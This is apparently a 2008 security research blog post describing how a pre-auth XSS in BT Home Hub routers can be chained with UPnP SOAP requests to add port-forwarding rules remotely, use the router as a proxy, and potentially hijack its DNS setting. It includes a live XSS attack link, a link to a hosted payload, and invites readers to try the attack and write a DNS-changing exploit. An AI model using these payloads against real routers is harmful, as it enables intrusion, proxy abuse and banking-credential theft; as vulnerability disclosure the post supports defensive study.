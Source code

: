 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (5) - exploiting IGDs remotely via UPnP
author: adrian-pastor
date: Thu, 10 Jan 2008 11:46:14 GMT
template: this/views/post.jade
category: fucked
---
```


It's known that [UPnP](http://www.upnp.org/resources/whitepapers.asp) is inherently insecure for a very simple reason: administrative tasks can be performed on a Internet Gateway Device (IGD) without needing to know the admin password whatsoever! This on its own is quite scary and I personally feel that although there is some research in the public domain, there is much more attention that needs to be paid to UPnP.

UPnP allows you to perform administrative functions. Some functions are very standardized and supported by most devices. Examples include obtaining network settings, and enabling port forwarding rules. Other functions are make/model specific. Some very scary functions such as obtaining administrative username and password pairs have been [reported](http://www.securityfocus.com/bid/7267/discuss) in the past. As a reminder, this works without submitting any administrative password whatsoever since UPnP is a authenticationless protocol. On top of this, most IGDs support UPnP by default.

After having read several UPnP security research materials I realized that all the described attacks assume that the attacker (be it human or malware) comes from inside the network. This post describes how to exploit IGDs remotely via UPnP _even when no services are publicly available_ (WAN interface).

### Preauth XSS + SOAP payload = remote UPnP exploitation

If you sniff yourself while running software that uses UPnP in the background to help you configure your router, you'll see that UPnP is nothing more than SOAP. Our AJAX knowledge tells us about a feature that allows us to craft arbitrary XML requests: the [XMLHttpRequest](http://www.w3.org/TR/XMLHttpRequest/) object. Trouble is, such object can only be used within the context of the site that the requests are submitted to. So if we host the malicious scripting code on a third-party site, and a victim user located in the same LAN as the target IGD visits such page, the request _wouldn't_ go through due to XMLHttpRequest same-origin policy restriction. Or put in a different way: you aren't allowed to make _XMLHttpRequest_s to any server except the server where your web page came from.

However, if you find a [pre-auth XSS vulnerability](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) on the target device you can bypass such restriction. For instance, many devices such as the BT Home Hub and Speedtouch routers offer certain pages before authenticating. Some of these pages are cgi scripts which are vulnerable to XSS. Although offering certain "useless" functionalities before logging into the router might not seem like a big deal, it can actually lead to UPnP being exploited remotely, even if the web admin console is _not_ visible from the Internet!

The following is a non-malicious proof-of-concept exploit which sets up a port-forwarding rule from port 1337 on the WAN interface to port 445 on the internal IP address 192.168.1.64. Such IP address is the first usable IP address reserved for clients connected to Speedtouch and BT Home Hub routers. The exploit has been tested on BT Home Hub - Firmware version 6.2.6.B. Just to make things clear, UPnP is enabled by default on the BT Home Hub, just like most IGDs. If your Internet gateway is a BT Home Hub, clicking on the following link should add a new forward rule called **EVILFORWARDRULE**: [ATTACK](http://192.168.1.254/cgi/b/ic/connect/?url=%22%3e%3cscript%20src=).

In order to check if the port-forwarding rule was added successfully you can use [UPnP Port Forwarding Utility](http://www.codeproject.com/KB/IP/PortForward.aspx) and simply click on "Update list now" after the device has been discovered (device name should show on the top-left corner a few seconds later after launching the tool). You could of course use the technique and code explained in this post on any Internet gateway that supports UPnP and is a vulnerable to a preauth XSS vulnerability. If you manage to successfully test this attack on the BT Home Hub or any other device please let us know!

    [http://www.gnucitizen.org/static/blog/2008/01/payload.xss](http://www.gnucitizen.org/static/blog/2008/01/payload.xss)

### Zombie routers and the unvalidated _NewInternalClient_ bug

A bit of more UPnP hacking lead me to realize that the BT Home Hub is vulnerable to the (in)famous unvalidated _NewInternalClient_ bug. This bug allows you to choose external IP addresses instead of a LAN IP addresses as intended when setting up port-forwarding rules via UPnP. In this case, I reused the previous code and  changed the internal IP address (`192.168.1.64`) in the _NewInternalClient_ tag with the IP address of a random Internet web server and the value of the _NewInternalPort_ tag to `80`. This effectively allows an attacker to use the vulnerable BT Home Hub router as a proxy - aka onion router. In other words, when probing the router's NATed IP address on port 1337, the attacker is effectively probing the IP address and port number specified by the port-forwarding rule - except the routers IP address would be shown in logs of the target web server, as opposed to the attacker's real IP address. I thought this is a nice real example of how a vulnerable router can be used as a **zombie** by simply having a user visit a page with malicious scripting (XSS + UPnP SOAP request). Imagine running your favourite vulnerability scanner against a target site, while using the victim user's router as a proxy - sweet!

_There are other UPnP functionalities besides port forwarding rules that look potentially interesting from a hacking point of view. For instance, [SetDNSServer](http://www-adele.imag.fr/users/Didier.Donsez/dev/osgi/upnpgendevice/api/fr/imag/adele/bundle/upnp/igd/model/LANHostConfigManagementModel.html#setDNSServer(java.lang.String)) allows you to guess what, set the gateway's DNS server. Imagine someone changing your router's DNS server setting by simply visiting a webpage. After that you visit yourfavoritebank.com and guess what, you're actually visiting a malicious server that is harvesting all your banking login details! I'll leave the exercise of writing a remote UPnP exploit that changes the DNS server setting on the BT Home Hub (or any other vulnerable router) to the reader._
